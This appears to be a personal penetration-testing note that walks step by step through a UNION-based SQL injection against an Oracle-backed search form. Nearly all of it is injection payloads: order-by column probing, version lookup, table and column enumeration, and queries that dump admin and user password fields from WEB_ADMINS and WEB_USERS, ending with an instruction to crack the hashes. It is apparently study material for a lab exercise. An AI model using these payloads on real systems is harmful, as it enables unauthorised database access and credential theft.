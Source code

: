 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

| Syntax         | Description      |     |
| -------------- | ---------------- | --- |
| ' order by 1-- | no error message |     |
| ' order by 5-- | error message    |     |
| ' order by 4-- | error message    |     |
| ' order by 3-- | no error message |     |

So as of now we know that 3 is the last column which worked, let us prepare the union select statement

```
' union select 1,2,3--
```

Error Message:
>Something went wrong with the search: java.sql.SQLSyntaxErrorException: ORA-00923: FROM keyword not found where expected

>Unlike MySQL Oracle do not allow select statement without from clause. As we have prepared the Union select statement our next task is to check which column is getting printed that we can do by random testing each column one by one by printing the current database name

Testing for columns:
```SQL
' union select 1,2,3 from dual--
```

```SQL
' union select null,null,null from dual--
```

```SQL
' union select '1111',null,null from dual--
```

```SQL
' union select null,'2222',null from dual--
``` 

```SQL
' union select null,null,'3333' from dual--
```

```SQL
' union select user,null,null from dual--
``` 

Finding the version:
```SQL
' union select (select banner from v$version where rownum=1),null,null from dual--
``` 

Finding all table names:
```SQL
' union select table_name,null,null from all_tables--
```

Dumping columns of found table:
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_ADMINS'--
```

Dumping values of found columns:
```SQL
' union select ADMIN_ID||ADMIN_NAME||PASSWORD,null,null from WEB_ADMINS--
```

```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_CONTENT'--
```

```SQL
' union select AUTHOR||CONTENT_ID||RELEASEYEAR||TITLE,null,null from WEB_CONTENT--
```

```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_USERS'--
```

```SQL
' union select PASSWORD||USER_ID||USER_NAME,null,null from WEB_USERS--
```

Take hash value and crack!


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
